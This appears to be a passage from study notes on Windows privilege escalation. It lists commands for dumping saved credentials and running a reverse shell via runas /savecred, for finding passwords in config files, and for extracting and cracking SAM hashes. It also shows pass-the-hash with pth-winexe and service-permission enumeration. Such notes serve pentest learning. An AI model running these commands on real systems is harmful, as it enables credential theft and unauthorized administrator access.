 {% tab title="Saved Creds" %}
Saved Creds

* Windows allows users to save thier credentials to the system for use with the runas command
* \>.\winPEASany.exe quiet cmd windowscreds
* \>cmdkey /list
  * \>run savecred.bat to refresh list of saved credentials
* \>runas /savecred /user:admin C;\reverse.exe
{% endtab %}

{% tab title="Config Files" %}
Config files

* Some config files will store admin creds
* Unattend.xml - for automated setup of windows
* Search for filenames: sysprep.inf, unattended.xml, sysprep.xml
* Recuresively search for files in the current dir with “pass” in the name, or ending in .config
  * \> dir /s \*pass\* == \*.config
* Recuresively search for files in the current dir with “password” in the name, and end in .xml, .ini, or ,txt
  * \> findstr /si password \*.xml \*.ini \*.txt
* \>.\winPEASany.exe quiet cmd searchfast filesinfo
{% endtab %}

{% tab title="SAM" %}
SAM

* This is where windows stores password hashes
* They are encrypted with a key that can be found in a file named SYSTEM
* If you can read both SAM and SYSTEM you can extract the hashes.
  * Located in C:\Windows\System32\config
  * These are locked while windows is running
  * Backups might exist in C:|windows\Repair or C:\Windows\System32\config\RegBack
* pwdump tool - part of creddump7
* Look at the NTLM hash - If the last section starts with “31d6c” this indicates the password is empty, or the accoutn is disabled.
* Crack the admin user hash with hashcat
{% endtab %}

{% tab title="Pass-The-Hash" %}
* Passing the hash
  * Windows accepts hashes instead of passwords for a number of services.
  * We can use pth-winexe to spawn a command prompt using the admin users pw hash
  * \#pth-winexe -U " \[entire hash including LM hash] //\[target] cmd.exe
{% endtab %}
{% endtabs %}

### Service Exploits

{% tabs %}
{% tab title="Enum Cmds" %}
First lets get a list of services that are running on the target and thier permissions

* \>accesschk.exe -uwcqv \*
* \>accesschk.exe -uwcqv “Authenticated Users” \*
* \> Get-WmiObject win32\_service | Select-Object Name, State, PathName | Where-Object {$\_.State -like 'Running'}
* \>sc.exe qc \[name] -query service config
* \>sc.exe query \[name] -query service status
* \>sc.exe config \[name] \[option]= \[value] -modify config option of a service
* \>net start/stop \[name] -start/stop a servic
{% endtab %}
